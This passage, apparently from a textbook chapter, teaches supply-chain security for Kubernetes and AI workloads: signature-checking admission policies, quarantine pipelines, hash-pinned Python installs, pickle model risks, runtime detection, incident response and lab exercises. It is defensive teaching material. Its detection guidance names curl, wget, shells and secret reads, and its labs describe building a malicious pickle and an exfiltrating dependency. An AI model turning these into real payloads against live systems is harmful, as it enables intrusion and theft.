  validationFailureAction: Enforce
  webhookTimeoutSeconds: 15
  rules:
    - name: verify-signature
      match: { any: [ { resources: { kinds: [Pod], namespaceSelector: { matchLabels: { env: prod } } } } ] }
      verifyImages:
        - imageReferences: ["registry.example.com/ml/*"]
          mutateDigest: true
          verifyDigest: true
          required: true
          attestors:
            - entries:
                - keyless:
                    issuer: https://token.actions.githubusercontent.com
                    subjectRegExp: "^https://github.com/acme/.+/\\.github/workflows/release\\.yml@refs/tags/v.*$"
                    rekor: { url: https://rekor.sigstore.dev }
          attestations:
            - type: https://slsa.dev/provenance/v1
              attestors: [ { entries: [ { keyless: { issuer: https://token.actions.githubusercontent.com, subjectRegExp: "^https://github.com/acme/.+" } } ] } ]
              conditions:
                - all:
                    - key: "{{ buildDefinition.buildType }}"
                      operator: Equals
                      value: "https://actions.github.io/buildtypes/workflow/v1"
    - name: only-approved-registries
      match: { any: [ { resources: { kinds: [Pod] } } ] }
      validate:
        message: "Images must come from registry.example.com or nvcr.io."
        pattern:
          spec:
            containers:
              - image: "registry.example.com/* | nvcr.io/*"
```

Read the first rule as a checklist. It checks the signature and the provenance attestation against the GitHub workflow identity, and it requires the build type to match. The second rule rejects images from any registry other than registry.example.com and nvcr.io. Notice that the first rule checks who built the image, and the second checks where it came from. Both questions matter, and a policy that answers only one of them leaves a gap.

Other options include the Sigstore policy-controller with `ClusterImagePolicy`, Ratify with Gatekeeper, Connaisseur, and cloud-native services such as Binary Authorization on GKE, ECR signing with Notation and Kyverno or Gatekeeper, and Azure Policy for Kubernetes with Notation. Pick the one that fits the tools your team already runs, because a second admission system is one more thing to keep alive.

Several operational concerns come with enforcement. Verification adds latency, so cache the results. Decide whether the webhook fails open or fails closed, because the registry becomes a dependency either way. Fail open means that if the checker is unavailable, pods are admitted anyway, which keeps the cluster running but lets unverified images in. Fail closed means that if the checker is unavailable, nothing is admitted, which is safe but can stop deployments. Handle exemptions for system namespaces and bootstrap images by mirroring them into your registry and signing them. Roll the policy out in `Audit` mode first, so you can see what it would block before it blocks anything. Third-party images need re-signing after your own scanning and mirroring, which is the image promotion pipeline described below. Verify init containers and ephemeral containers, not only the main containers, and re-verify whenever a Deployment updates.

### Quarantine workflow

Registries can scan images and block pulls, but some images need more checks. Some teams also cannot pull straight from the public internet and must use an internal registry. A multiregistry setup with a quarantine pipeline solves both problems. A quarantine registry is a holding area where an image waits until it has passed your checks. The flow works like this:

1. Developers request an image through a self-service portal. A ServiceNow form or a Jenkins job works well, and chatbots are gaining popularity.
2. The image is pulled automatically into a quarantine registry.
3. The pipeline runs checks, and it can start environments that pull and verify the image against your criteria.
4. If the checks pass, the image is optionally signed and pushed to an approved registry.
5. The developer hears the result, with the reason if the image was rejected. A chatbot, a ticket or a job update can carry the message.

Combine this flow with admission controllers. Then only signed images, or images from a specific registry, can run on the cluster. The quarantine step and the admission step check the same things from two directions, so a mistake in one is caught by the other.

### Image promotion pipeline

The diagram shows an upstream image moving from quarantine into the approved repository. Each arrow is a decision, and only the images that pass every decision reach the approved repository.



*Figure 5.27.2. Image promotion pipeline, as a diagram.*

Clusters trust only the `approved` repository and your signer. Upstream trust decisions are made once, centrally, with evidence. That means a team that wants a vendor image does not have to repeat the review, and the clusters do not have to trust the vendor directly. Decide which signer and repository your clusters trust before you enable enforcement, because changing that trust later means re-signing everything.

## 6. Registries and artefact stores

Your registry sits on the path to every deployment, so its access rules matter as much as the images in it. A registry that anyone can write to is an open door at the end of the supply chain. The points below cover access, immutability, scanning, other artefact types and dependency confusion.

- Access control: keep separate repositories for quarantine, dev and prod. Push rights go only to CI identities, while clusters get read-only access through pull credentials from workload identity. Avoid shared admin tokens, and keep audit logs. A shared token has no owner, so when it leaks, nobody can say which system used it.
- Immutability: turn on tag immutability for release tags, and reference digests in manifests. Keep retention long enough to make deployed digests available, add deletion protections, and keep replicated copies for disaster recovery. If a digest is deleted while a cluster still runs it, a rollback becomes impossible.
- Scanning and policy in the registry: Harbor policies, for example, can block pulls of vulnerable images and require signed images. Pull-through caches should use allow-lists, so the cache only fetches images you have approved. Rate limits and malware or quarantine features add further protection.
- Other artefact types: registries hold more than container images. Helm charts can live as OCI artefacts. Python packages belong in a private index such as PyPI, devpi or Artifactory, with a proxy and curation. Conda channels and OS package mirrors (snapshots) work the same way. Model registries include private MLflow or Hugging Face Hub, and OCI model artefacts packaged with ORAS or KitOps. Datasets fit versioned buckets with hashes. Terraform modules and providers need mirrors and lock files with hashes (4.22).
- Dependency confusion defences: use scoped or private package names, reserve names on public indexes and claim namespaces. Point the index at your proxy with `--index-url` only, because `--extra-index-url` is dangerous. With `--extra-index-url`, pip can pick the highest version from either index, so a public package with a higher version number can win over your internal one. Curate artefacts with an allow-list of approved packages and versions, and delay new releases with a cooldown before adoption.

### Registry placement and replication

Put a registry in each failure domain to keep images available. A failure domain is a group of machines that can fail together, such as a zone or a region. Then decide between one central blob store and a blob store per region, with replication between them. A blob is the stored content of an image layer or config. Replication pushes an image to one registry and copies it to the rest of the set. A basic version can run in a pipeline tool, triggered by webhooks on each push.

Registry load grows with the number of developers. When thousands of teams build on every commit, pulls and pushes add up fast. The registry is on the critical path for production and for development, so monitor it as you would any core service. An outage of the registry during a deploy is an outage of the deploy.

## 7. Python and ML dependency hygiene

Python dependencies are where many AI images get their risk. A typical training image installs hundreds of packages, and each one is a person's code that you have agreed to run. Each control below narrows what an installer can pull in and what it can run.

Start with lockfiles that include hashes. A lockfile records the exact version of every package, and a hash records the exact bytes of each file. Tools such as `pip-compile --generate-hashes`, `uv pip compile --generate-hashes`, a Poetry lock or PDM can produce them. Install with `pip install --require-hashes -r requirements.txt`, and add `--no-deps` after a full lock. Then any substituted wheel fails the install. A wheel is a prebuilt package file, and a substituted one, even with the right name and version, has different bytes and so a different hash.

Prefer wheels over sdists with `--only-binary=:all:`. An sdist is a source package, and installing one can run an arbitrary `setup.py` during install. Preferring wheels stops `pip` from doing that. Packages that must compile, such as custom CUDA ops, should build in a dedicated, hermetic, network-restricted stage. Ship the resulting wheel from your internal index. That way the compile step runs once, under your control, and everything else only downloads finished files.

Make a private index the only source for CI and production images, and mirror vetted public packages into it. Scan with `pip-audit`, the OSV scanner or Safety, and run licence checks. Renovate or Dependabot should open update changes for review, with a cooldown for fresh releases. A cooldown waits a few days after a release before adopting it, which gives the community time to find a malicious version.

Pin CUDA and PyTorch stacks to matched wheels or containers that the vendor publishes, such as NGC or the PyTorch index with a CUDA tag. Mixing a CUDA build from one source with a PyTorch build from another is a common source of confusing crashes, so match them at the source. Avoid ad-hoc `pip install` in running containers and notebooks. Rebuild the image instead of mutating it. Restrict outbound access from training pods to package indexes, and allow that access only through a proxy.

Notebook environments need the same discipline. Give users curated base images with approved libraries, and keep per-user environments in volumes that are scanned regularly. In production namespaces, use an egress policy to disallow `pip install` from the Internet. Allow installs through a proxy with an allow-list, and log them. A notebook is often the place where an unreviewed package first enters the environment, so it deserves the same rules as the pipeline.

For conda and mamba, use pinned `conda-lock` files and trusted channels, such as conda-forge with signature verification. Avoid drift between pip and conda installs, because two package managers can each install a different copy of the same library.

Vendor and review C, C++ and CUDA extensions. Build them reproducibly, compile with hardening flags, and document ABI and driver compatibility (5.1). An ABI is the binary interface a compiled library expects, and a mismatch can crash at runtime with no error at install time.

Python has an attack surface at startup too. Watch `.pth` files, `sitecustomize` and `PYTHONSTARTUP`. A `.pth` file in site-packages can run code every time Python starts, and the other two are hooks that run before your program does. Keep site-packages read-only in production images, and remove pip and compilers from runtime images. A runtime image with no compiler is much harder for an attacker to extend.

Inference servers need fast patching. Public CVEs in popular servers, including Ray, vLLM, Triton, Jupyter, MLflow and TorchServe, have enabled remote code execution (RCE) once the servers were exposed. RCE means an attacker can run their own commands on the server. Never expose management ports, authenticate every endpoint, and apply network policies (5.15). An inference server is often reachable from many places, so a management port left open is a serious risk.

Before you add scanning, lock your dependencies and point every install at one index. Scanning a list that keeps changing tells you about a moving target, and an unlocked install can pull in a different package than the one you scanned.

## 8. Model and data supply chain

A model file is code in disguise, and if you load a checkpoint you did not create, the first risk is how it is serialized. Serialized means the file stores objects in a packed form that the loader must unpack. Python pickle is used by many `.bin`, `.pt` and `.pkl` checkpoints, and pickle executes arbitrary code on load. Loading such a file is therefore the same as running a program you have not read. Before version 2.6, `torch.load` used pickle by default.

Prefer safetensors, which runs no code and supports zero-copy loading. Zero-copy loading means the weights can be mapped into memory directly, without an extra copy. Pass `torch.load(weights_only=True)`, and use ONNX or TensorRT engines from trusted builds. Avoid `trust_remote_code=True` with unreviewed model repositories, because it downloads and runs Python from the model repo. That flag hands control of your process to whoever wrote the repository. Model scanners such as ProtectAI's modelscan, fickling and Hugging Face's scanners add defence in depth. They do not prove that a file is safe, because a scanner can only recognise the patterns it was built to recognise.

Record where each model came from, so you can check it later. Capture the repo, the commit SHA, file hashes (SHA-256), the licence, the training data lineage and the evaluation results. Sign models with OpenSSF model-signing and Sigstore, or with cosign for OCI model artefacts packaged by ORAS, KitOps or ModelPack. Verify on download and again before serving. Store approved models in an internal registry, and pin them by commit or digest rather than by a moving name such as `main`. A name such as `main` points at whatever the latest version is, and that version can change without warning.

Download only from allow-listed hubs, through a proxy or mirror, and check checksums. Do not download at runtime in production pods. Pre-stage models onto a PVC, into object storage or into an image volume. Deny egress to model hubs from serving namespaces. A serving pod that downloads its model at startup is trusting whatever the hub serves at that moment.

Version datasets in content-addressed storage, such as DVC, lakeFS or object versioning with checksums. Content-addressed means the storage name is derived from the content, so a changed file gets a new name. Control access and keep an audit trail. Validate external data for schema, outliers, poisoning, duplicates, licence and PII. PII means personally identifiable information. Snapshot the data for each training run, with its hashes in the run metadata, and keep raw data separate from curated data.

LoRA adapters are small, but they can change model behaviour. A LoRA adapter is a small file of extra weights that is applied on top of a base model. Sign and review them, and restrict who can promote adapters into production serving. A small file is easy to overlook in review, and it can change the model's answers entirely.

Keep training pipelines as code, with reviews. Track artefact lineage with MLflow, W&B or OpenLineage. Lineage is the record of which inputs produced which outputs. A reproducible run needs the image digest, lockfile, data hash, config and seed, and together those form the run ID. Protect experiment trackers and registries with RBAC, and guard evaluation sets against tampering. An attacker who can change the evaluation set can make a bad model look good.

On the output side, publish model cards and an SBOM or ML-BOM. Evaluation attestations can act as signed safety, bias and performance gates that must pass before promotion. A gate is a check that blocks promotion until it passes. Watermarks or C2PA provenance can mark generated content where that matters. C2PA is a standard for recording where a piece of content came from.

Scan checkpoints, notebooks and logs for credentials, and keep tokens out of model artefacts. A token saved in a notebook output is a token published to everyone who can read the notebook.

Verify a model's source and hashes before anything loads it.

## 9. Runtime and detection

Supply-chain controls fail eventually, so you need to limit the blast radius (5.15, 5.21). Blast radius is how much damage one compromised component can do before it is stopped. Start with least privilege at runtime. Run as non-root, use a read-only root filesystem, drop capabilities, apply seccomp, and avoid host namespaces. Give the workload a minimal ServiceAccount, and grant cloud credentials only through workload identity with narrow scopes. Every permission you remove is one a compromised container cannot use.

Default-deny egress, with explicit allow-lists for the object store, the registry mirror and the package proxy. Egress means traffic leaving the cluster, and default-deny means nothing leaves unless you allow it. This blocks callbacks and exfiltration from a compromised package. Log DNS, and use an FQDN policy where you can. An FQDN policy allows traffic by domain name instead of by IP address, which is more precise when the IP changes.

Add runtime detection with Falco or Tetragon rules. Detection is the step that notices an attack that got past everything else. Watch for unexpected process execution, such as `curl`, `wget` or shells in production images. Also watch for writes to unexpected paths, connections to unfamiliar IPs, reads of mounted secrets and loading of unexpected kernel modules. Audit logs can flag unusual ServiceAccount token use.

Protect the node too. Use signed or measured boot where available, and immutable node images (4.17). Measured boot records what the machine started with, so a changed boot chain shows up. Sign kernel modules, and restrict `privileged`. Verify GPU driver containers and operators by checking that their images are signed.

Keep secrets short-lived. Use short-lived credentials, workload identity and rotation, and keep long-lived keys out of images. A credential that lasts for minutes limits what a thief can do with it. Place honeytokens, or canaries, in registries and buckets so that scanning or theft shows up. A honeytoken is a fake credential that nobody should ever use, so any attempt to use it is a clear alarm.

### Limit what a container can do

Scanning finds known flaws, but it cannot find everything. An image can download malicious content after deployment, and a running app can be hijacked. A naive guard is a periodic filesystem scan of running containers, to catch vulnerable binaries that arrive late. A stronger guard limits the actions and behaviours a container can perform. That ends the endless chase of CVEs, and it focuses on the capabilities the app should have. Instead of asking what bad file might be present, you ask what the app is allowed to do at all.

Runtime scanning is a large topic. Falco and the Aqua Security suite are good starting points.

Decide which capabilities your workloads really need, and remove the rest. If you can name those capabilities, you can see what a compromised container could still do. Writing the list down also makes review easier, because a new permission then shows up as a visible change.

## 10. Incident response for supply-chain events

Suppose a CI token leaks and malicious images are pushed under your name. The playbook has six steps, and the first one is a query, not a guess. In an incident, a guess sends the team in the wrong direction, while a query gives you a list you can act on.

1. Identify the scope from SBOMs and inventory. Find which images and digests contain the affected component, or came from the compromised pipeline. Find which clusters and namespaces run them, using a `kubectl` image digest inventory or GUAC or Dependency-Track queries. Also find which models and datasets were built or touched.
2. Contain the damage. Block the digests with an admission deny list, or remove the policy exception that let them through. Scale down or isolate affected workloads, and disable affected CI pipelines and tokens. Revoke signing identities or add them to a revocation or deny list. Cosign has no revocation, so rely on policy by identity and time, or rotate keys and update policies. Quarantine registry repositories as needed. Containment stops the damage from growing while you investigate, so do it before you start the detailed work.
3. Eradicate and rebuild. Rotate all credentials the build or runtime could have touched, including CI tokens, cloud keys, registry credentials and secrets. Rebuild from known-good sources and bases with patched dependencies. Verify provenance, and redeploy progressively. If container escape is suspected, scan nodes for persistence. Persistence means something that survives a restart, so a node scan looks for leftovers that a pod restart would not remove.
4. Investigate. Review audit logs from CI, the registry, the Kubernetes API and the cloud. Check Rekor entries, network egress logs and runtime detections. Preserve the evidence, because the logs you need are often the ones with the shortest retention.
5. Communicate and learn. Notify stakeholders and customers according to policy. Run a blameless review, then add detection and controls, such as enforcing signature policy, a cooldown for new dependencies or hermetic builds.
6. Prepare in peacetime. Keep an up-to-date inventory, and practise "log4shell drills", which find every instance of a component in 1 hour. A drill is a rehearsal, so the first time the team runs the search should not be during a real incident. Keep rebuild pipelines healthy, and document break-glass procedures. A break-glass procedure is the emergency access path that bypasses the normal approvals, and it needs to be written down before it is needed.

Build the inventory before an incident, because scoping without one is slow. When the incident starts, nobody will have time to build a list from scratch.

## 11. Maturity roadmap

Few teams build all of this on day one. The table sorts the controls into four stages, from Baseline to Advanced, so you can see what comes next. Read it as a path. Each stage depends on the one before it, so a team that skips Managed will struggle to do Verified.

| Stage | Capabilities |
|---|---|
| **Baseline** | Private registry; pinned bases/digests; image scanning in CI; no secrets in images; non-root; lockfiles |
| **Managed** | SBOMs per build; continuous registry rescan; hash-pinned Python deps via private index; signed images (key or keyless); admission allow-list of registries; renovation bot with review |
| **Verified** | SLSA L2–3 provenance; admission enforces signature + provenance; image promotion pipeline; VEX-driven triage; hermetic builds; egress allow-lists; signed models |
| **Advanced** | Reproducible builds; policy on source reviews and dependency ages; GUAC/graph-based queries; runtime attestation (confidential computing/attested nodes); continuous verification and automated revocation; supplier attestation requirements |

Use the table to decide which stage your team is working towards next. Pick one or two items from the next stage, finish them, and then choose again. Trying to reach Advanced in one step usually leaves the Baseline items half done.

## 12. Lab

Start with the self-checking Python lab, which runs locally. It checks three things. It verifies a keyless Sigstore and Cosign OIDC signature, plus a SLSA provenance check with `mutateDigest` (through `verify_image_signature_and_mutate_digest`). It tests the quarantine-to-approved registry promotion and the VEX CVE suppression engine from Production Kubernetes (through `evaluate_quarantine_image_promotion`). It also audits the AI model format, `safetensors` against pickle, and the Python `--require-hashes` and dependency-confusion checks (through `audit_ml_model_and_pip_supply_chain`). Running it first gives you a working model of each check, so the cluster steps have something to compare against.

```bash
python3 code/part05/supply_chain_policy_verifier_lab.py
```

Run the command above first, because you need its result before the cluster work. The cluster exercises come next. They need a cluster with BuildKit, `cosign`, `syft`, `trivy` or `grype`, and Kyverno. The interactive shell steps below were not run on live hardware, so treat those steps as a plan until you have run them.

1. Scan and SBOM. Build a PyTorch-based image. Generate SPDX and CycloneDX SBOMs with Syft, and scan with Trivy and Grype. Compare the findings, triage one CVE with VEX, and look for how a PyTorch-bundled CUDA library appears.
2. Hash-pinned Python. Create `requirements.in` and compile it with hashes. Install with `--require-hashes`, then swap a wheel on a mirror to prove that the install fails. Configure a private index, demonstrate dependency confusion in a sandbox, and apply the fix: a single index with name reservation.
3. Keyless signing in CI. Use GitHub Actions with OIDC to build and push an image, then run `cosign sign`. Attest the SBOM and the provenance with `cosign attest`. Verify locally with identity constraints, inspect the Rekor entry, and tamper with the image tag to confirm that verification fails.
4. Admission enforcement. Deploy Kyverno, or the policy-controller, with `verifyImages`. Start in Audit mode and review the reports, then switch to Enforce. Test an unsigned image, an image signed by the wrong identity and an allowed image. Test init containers and Deployment updates too.
5. SLSA provenance. Use the SLSA generator or BuildKit provenance. Verify it with `slsa-verifier`. Then add a policy condition on the builder identity and the source repo.
6. Promotion pipeline. Mirror an NGC or community image into quarantine, scan it, sign it and promote it. Make the cluster accept only the approved repo. Then update the image, run the whole flow end to end, and measure the time.
7. Hermetic build. Build with BuildKit, using an internal proxy and `--network=none` for the compile stage. Show that a build which tries to `curl` the Internet fails. Compare the reproducibility of two builds with `diffoscope`.
8. Model supply chain. Craft a malicious pickle with a harmless payload. Show what happens with `torch.load`, with `weights_only=True` and with safetensors. Scan the file with modelscan. Sign a model artefact with model-signing or cosign, and verify it before serving in an init container. Then block `trust_remote_code` with a policy.
9. Egress control. Run a compromised-dependency simulation, which is a package that tries to call an external URL and read environment variables and secrets. Show that a default-deny egress `NetworkPolicy` blocks it, and that Falco or Tetragon detects it. Then rotate the exposed secret.
10. Inventory and incident drill. Collect all running image digests and SBOMs into Dependency-Track or GUAC. Answer "which workloads include package X version Y?" quickly. Then run a drill for a hypothetical critical CVE, and measure the time to inventory, patch, rebuild and redeploy.
11. CI hardening review. Audit a GitHub Actions workflow set for unpinned actions, `pull_request_target`, a broad `GITHUB_TOKEN` and secrets exposure. Fix them with SHA pins, least-privilege permissions, environment protections and OIDC. Then run `zizmor`, `actionlint` and Scorecard.
12. Policy as code tests. Unit-test your Kyverno policies with `kyverno test`, using fixtures in CI (4.13).
13. Clean up when you finish. Remove the test images, clusters, keys and policies that the exercises left behind.

## 13. Common mistakes

Most of these mistakes come from a control that exists on paper but is set up badly in practice. A checkbox that is present but misconfigured gives the same false comfort as no control at all. Check your setup against each group.

- Scanning without acting, or blocking on every finding without context until the policy gets disabled. Signing tags, or trusting any valid signature, instead of binding to the expected identity and digest. A signature that anyone can produce is not a check at all.
- A fail-open admission webhook can be bypassed under load. Verifying only the main containers, and not the init or ephemeral ones, is another gap. Public indexes in production builds, `--extra-index-url`, missing hashes and installs from the Internet at container start all add risk. Each of these lets a package in that the lockfile never agreed to.
- Base images pulled straight from public registries in production builds, mutable tags, and no rebuild cadence. Treating SBOMs as compliance paperwork instead of an operational inventory, and not storing them with digests. An SBOM stored away from its digest cannot answer the question "where is this running?"
- Long-lived CI secrets and cluster credentials held in CI, and self-hosted runners with persistent state. Loading pickled models from unknown sources, leaving `trust_remote_code=True` on by default, and downloading models at runtime. Persistent runner state lets one job leave something behind for the next.
- Ignoring GPU stack and inference-server CVEs, and exposing management endpoints. Having no inventory of what is running, so incident scoping takes days.

Go through the list against your own pipeline, and fix the gap that would hurt most first. Usually that is the one that lets an unreviewed artefact reach production without anyone noticing.

## 14. Interview angles

Use these questions to practise explaining the chapter out loud. Answer each one as you would to a colleague, starting with the risk and then naming the control.

- Walk me through securing the supply chain for container images in a Kubernetes cluster.
- What is SLSA? What are provenance and attestations? How do you verify them in the cluster?
- How does cosign keyless signing work? What are Fulcio and Rekor?
- What's in an SBOM and how do you use it during a Log4Shell-type event?
- How do you defend against dependency confusion and typosquatting in Python?
- Why are pickled models dangerous? What are the alternatives and controls?
- How would you design an image promotion pipeline for third-party GPU images?
- How do you respond if a CI token was leaked and malicious images were pushed?

Pick the two you find hardest, and answer them in your own words.

## Exercises

Each exercise below asks you to trace one part of the chapter through real code or a real incident. Work through them in order, because the threat model in the first one gives the vocabulary the rest of the exercises use.

1. Build the threat model for an end-to-end AI software supply chain. The chain runs from `Source -> Build -> Dependencies -> Registry -> Deploy -> Runtime`. Map the six attack vectors in Section 1 (`A1..A6`) to real incidents. Use SolarWinds, Codecov, `xz`, dependency confusion, malicious pickle models and leaked CI tokens. For each stage, state the defensive control you would use.
2. Work through the Golden Base Images Antipattern, Cloud Native Buildpacks and in-cluster Tekton build pipelines, as *Production Kubernetes* covers them. Start with `evaluate_quarantine_image_promotion()` in `code/part05/supply_chain_policy_verifier.py`. Explain why forcing teams to rebase all third-party and vendor images onto a single corporate OS base image fails. Then explain how the Quarantine-to-Approved promotion pipeline replaces that approach. Trace the `git-clone` `Task`, the `buildpacks-phases` `Task` and the `clone-and-buildpack` `Pipeline` manifests in Section 3.
3. Explain the difference between SLSA Build L1, L2 and L3. Then explain how Syft generates SBOMs, which are attached with `cosign attest --type spdxjson`. Cover in-toto attestations and the SPDX and CycloneDX formats as well. Finally, explain how VEX, the Vulnerability Exploitability eXchange, suppresses CVE alerts that are false positives or not exploitable. Each suppression needs a documented justification. Unmitigated, fixable Critical and High CVEs must still be blocked.
4. Explain how keyless signing with Sigstore and cosign works, and how Kyverno `verifyImages` enforces it. Using `verify_image_signature_and_mutate_digest()` in `code/part05/supply_chain_policy_verifier.py`, trace the `require-signed-images-and-provenance` Kyverno `ClusterPolicy` in Section 5. Show how Fulcio binds a short-lived X.509 certificate to the GitHub Actions OIDC token and logs it in Rekor. Then explain why Notary v1's Globally Unique Name, or GUN, broke across registry mirrors, as *Production Kubernetes* describes. Finally, explain why `mutateDigest: true` is mandatory.
5. Use `audit_ml_model_and_pip_supply_chain()` in `code/part05/supply_chain_policy_verifier.py` to explain how a public PyPI package with a higher version number can hijack an internal package name when `--extra-index-url` is used. Then design a hermetic, multi-stage Python and CUDA build that you could run in CI. It combines `uv pip compile --generate-hashes`, `pip install --require-hashes --only-binary=:all:` and BuildKit `--network=none`.
6. Explain why Python `pickle` files (`.pt`, `.bin` and `.pkl`) execute arbitrary code inside `__reduce__` during `torch.load()`. Cover `weights_only=True` and `trust_remote_code=False` along the way. Then explain how `safetensors`, OpenSSF `model-signing` and OCI model artifacts (`ORAS` and `KitOps`) secure model weights. Finally, walk through the 6-step incident response playbook in Section 10 as you would for a zero-day CVE or a leaked CI signing token.

## Checkpoint questions (20)

<details>
<summary>1. What is the difference between SLSA Build Level 1, Level 2, and Level 3?</summary>

- SLSA Build L1, provenance exists: The build process generates machine-readable provenance automatically. It records the inputs and commands that produced the artifact, using `https://slsa.dev/provenance/v1`. That provenance is not yet cryptographically protected against tampering on the build host.
- SLSA Build L2, hosted and signed provenance: Builds run on a hosted build service, not on a developer's laptop. The service signs the provenance attestation, so consumers can verify it.
- SLSA Build L3, hardened and isolated build platform: Each build runs in an ephemeral, isolated environment, such as one VM/sandbox per build that is destroyed right after. User-defined build steps cannot access or forge the signing keys that the control plane uses. That is what makes the provenance non-falsifiable.
</details>

<details>
<summary>2. In *Production Kubernetes* Chapter 15, what is the "Golden Base Images Antipattern", and what architecture should replace it for third-party/vendor images?</summary>

- The Golden Base Images Antipattern: Teams are required to take every third-party or vendor image, such as Postgres, Redis, Envoy or NVIDIA NGC bases. They must then rebase or repackage its binaries onto one corporate OS base, such as a hardened corporate RHEL or CentOS image. This breaks upstream libc and library assumptions, and it duplicates upstream testing. It also creates a large maintenance bottleneck. Images rarely get updated, so the cluster ends up running older, more vulnerable software.
- The replacement architecture: Use curated minimal bases for your own first-party code, such as `gcr.io/distroless/base` with `USER nonroot:nonroot`, or pinned Alpine or Wolfi. Route third-party and vendor images through an automated Quarantine-to-Approved Image Promotion Pipeline. Mirror the upstream digest into a `quarantine` repo. Run automated CVE, license and user-ID scans. Sign the digests that pass with your organization's key. Then promote them to the `approved` repo that cluster admission trusts.
</details>

<details>
<summary>3. In Production Kubernetes Chapter 15, how do `Tekton` (`Task`, `Pipeline`, `Workspace`, `Results`) and `Cloud Native Buildpacks` (`/cnb/lifecycle/builder`) build container images inside Kubernetes without a privileged Docker daemon?</summary>

- Tekton models CI/CD pipelines as Kubernetes CRDs: `Task`, `Pipeline`, `TaskRun` and `PipelineRun`. A `git-clone` `Task` clones the repository onto a PVC-backed `Workspace`, named `shared-workspace`. It writes the exact Git commit SHA into `$(results.commit.path)`. Downstream tasks and provenance generators then use that immutable SHA, not a moving branch ref.
- Cloud Native Buildpacks, through the `buildpacks-phases` `Task` that runs `/cnb/lifecycle/builder`, and rootless Kaniko or BuildKit all work this way. They detect the application language, compile the source code and assemble OCI image layers in user space. Then they push the image to the registry. They never mount `/var/run/docker.sock` or require `privileged: true` on the build node.
</details>

<details>
<summary>4. In Production Kubernetes Chapter 15, why did Notary v1 (`Docker Content Trust`) struggle in multi-registry and edge-cache environments, and how do `cosign` / `Notary v2 (notation)` solve it?</summary>

Notary v1 identified every signed image by a Globally Unique Name, or GUN, that embedded the exact registry hostname URL, such as `docker.io/acme/app`. If you mirrored or cached that image in an internal Harbor registry or a regional pull-through cache, such as `harbor.internal/acme/app`, signature verification failed. The registry URL no longer matched the GUN.

Cosign from Sigstore and notation from Notary v2 sign the content-addressable SHA-256 manifest digest, written `@sha256:...`. They store the signature and attestations as OCI 1.1 referrers or artifacts beside the image layers. Copying the image across regional or air-gapped registries, with `cosign copy`, `oras cp` or Harbor replication, keeps the cryptographic signature intact.
</details>

<details>
<summary>5. Walk through how `cosign` "Keyless Signing" works in GitHub Actions or GitLab CI using `OIDC`, `Fulcio`, and `Rekor`.</summary>

1. The CI job asks its provider for a short-lived OpenID Connect (`OIDC`) JWT. GitHub Actions, for example, issues one from `https://token.actions.githubusercontent.com`. The token's claims prove the exact repository, the workflow file path (`.github/workflows/release.yml`) and the Git ref (`refs/tags/v1.2.0`).
2. `cosign sign` generates a one-time ephemeral keypair in memory. It sends the public key and the OIDC JWT to Fulcio, Sigstore's certificate authority. Fulcio verifies the JWT and issues a short-lived X.509 code-signing certificate, valid for about 10 minutes. That certificate binds the ephemeral public key to the CI workflow's OIDC identity in its SAN extension.
3. Cosign signs the image digest with the ephemeral private key. It records the signature and certificate in Rekor, an append-only, tamper-evident transparency log. Rekor adds a signed timestamp that proves the signature was made while the 10-minute certificate was valid. Cosign then discards the ephemeral private key from memory, so no long-lived signing key exists to steal.
</details>

<details>
<summary>6. Why is verifying "any valid Cosign signature" (`subjectRegExp: ".*"`) a critical security mistake in a Kyverno or `policy-controller` admission rule?</summary>

In public Sigstore keyless signing, anyone with a GitHub, Google or Microsoft account can get a valid Fulcio certificate for their own identity. That person can then sign any container image. If your admission policy only checks that some valid Fulcio signature exists, it does not restrict the `issuer` or the `subject`. The issuer should be `https://token.actions.githubusercontent.com`, and the subject should be matched with `subjectRegExp`, such as `^https://github.com/acme/.+/\.github/workflows/release\.yml@refs/tags/v.*$`. Without those checks, an attacker's personal GitHub workflow signature passes admission. Always pin both the exact OIDC `issuer` and your organization's trusted workflow `subjectRegExp`.
</details>

<details>
<summary>7. What is an `in-toto` Attestation (`DSSE`), and how does it differ from a plain image signature?</summary>

A plain image signature from `cosign sign` only proves that an identity signed a digest. The statement is short: identity X signed image digest `sha256:abc...`.

An in-toto attestation, created with `cosign attest` and wrapped in a Dead Simple Signing Envelope, or DSSE, is richer. It is a signed, structured JSON statement. It binds a Subject, which is the image digest `sha256:abc...`, to a typed Predicate. The Predicate holds verifiable metadata about the artifact. Common predicate types include:
  - `https://slsa.dev/provenance/v1`, which holds the exact Git commit SHA, builder ID, workflow inputs and build timestamps.
  - `https://spdx.dev/Document` or `https://cyclonedx.org/bom`, which hold the full Software Bill of Materials (SBOM).
  - `https://cosign.sigstore.dev/attestation/vuln/v1`, which holds a signed vulnerability scan report.

Admission controllers such as Kyverno can inspect fields inside the signed predicate before they admit a Pod. For example, Kyverno's `attestations.conditions` can require `buildDefinition.buildType` and `resolvedDependencies` to match corporate policy.
</details>

<details>
<summary>8. Compare `SPDX` and `CycloneDX` SBOM formats, and explain how an SBOM + `VEX` (Vulnerability Exploitability eXchange) work together during CVE triage.</summary>

- SPDX, from the Linux Foundation and ISO/IEC 5962, and CycloneDX, from OWASP with native `ML-BOM` and `VEX` extensions, are the two standard machine-readable SBOM formats. Both list every OS package, Python wheel, Go module and shared library inside an image.
- VEX helps prevent alert fatigue. Take a 15 GB PyTorch/CUDA image. It often contains hundreds of OS and library packages that a scanner flags with CVEs. Yet the vulnerable function may never be called, or the CLI tool may be unreachable at runtime. Rather than disable the scanner or ignore every alert, security engineers publish a signed VEX document, in OpenVEX or CycloneDX VEX format. It marks specific `(image_digest, CVE-ID)` pairs as `not_affected`, with a machine-readable justification such as `component_not_present` or `vulnerable_code_not_in_execute_path`. CI and registry gates then suppress the known non-exploitable findings, and they still block new real CVEs.
</details>

<details>
<summary>9. Why do standard container CVE scanners (`Trivy`, `Grype`, `Clair`) sometimes miss vulnerable C/C++/CUDA libraries inside AI/ML images, and how do you address it?</summary>

Standard scanners mainly read OS package manager databases, such as `/var/lib/dpkg/status` and `/var/lib/rpm`. They also read language metadata files, such as `*.dist-info/METADATA` in Python `site-packages`. AI and ML containers break that model in two ways. Large Python wheels, such as `torch`, `triton`, `flash-attn` and `tensorrt`, bundle statically linked or vendored `.so` shared libraries, such as `libcudnn.so`, `libnccl.so` and `libssl.so`. Those libraries are never registered in `dpkg` or `rpm`. Custom C++ and CUDA extensions compiled from source leave no package manager record at all.

The mitigations are to use the `syft` and `trivy` binary/file analyzers. Generate SBOMs during the build, when all source and wheel inputs are still known. Rebuild on patched vendor base images, such as `nvcr.io/nvidia/pytorch:24.xx`, on a monthly cadence.
</details>

<details>
